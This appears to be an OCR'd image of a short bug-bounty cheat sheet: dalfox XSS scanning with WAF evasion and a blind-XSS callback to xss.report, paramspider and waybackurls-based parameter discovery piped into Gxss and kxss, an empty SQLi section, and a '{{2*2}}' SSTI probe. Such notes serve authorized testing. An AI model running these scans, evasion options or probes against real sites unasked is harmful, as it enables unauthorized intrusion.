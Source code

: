 <details>
  <summary>XSS</summary>

    - Check for X-XSS-Protection header in the requset
    - 
    
    
    
    
    
    dalfox url "https://target.com/?q=search" -o dalfox_xss.txt
    dalfox file allParam.txt --waf-evasion --user-agent 'Mozilla/5.0 (x11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36' --proxy 'http://127.0.0.1:8080' --timeout 30 -b 'payload from xss.report' -o xssProbability.txt --deep-domxss 
    
    
    
    
    paramspider --domain domain.com
    paramspider --domain https://www.domain.com --exclude woff,css,png,svg,jpg --output t.txt
    
    echo "sub.domain.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | sort -u | dalfox pipe
    
    
    cat domain.txt | kxss | grep "\" ' < >" | tee kxss.txt
    
    cat domain.txt | kxss
    
</details>

---------------------------------------------------------------------------------
<details>
  <summary>SQLi</summary>

</details>

---------------------------------------------------------------------------------
<details>
  <summary>SSTI</summary>

    inject {{2*2}} in username or email
    
</details>

